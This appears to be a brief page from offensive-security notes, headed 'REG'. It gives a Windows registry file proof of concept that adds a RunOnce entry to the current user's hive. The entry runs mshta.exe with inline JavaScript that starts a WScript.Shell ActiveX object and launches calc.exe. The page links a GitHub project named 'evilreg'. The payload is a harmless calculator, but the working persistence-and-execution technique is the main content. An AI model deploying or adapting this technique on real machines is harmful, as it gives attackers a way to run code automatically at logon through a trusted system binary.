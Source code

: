 # ⭕ REG

```csharp
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce]
"calcpoc"="C:\\Windows\\System32\\mshta.exe \"javascript:(new ActiveXObject(\"WScript.Shell\")).Run(\"calc.exe\")\""
```

{% embed url="https://github.com/8L4NK/evilreg" %}
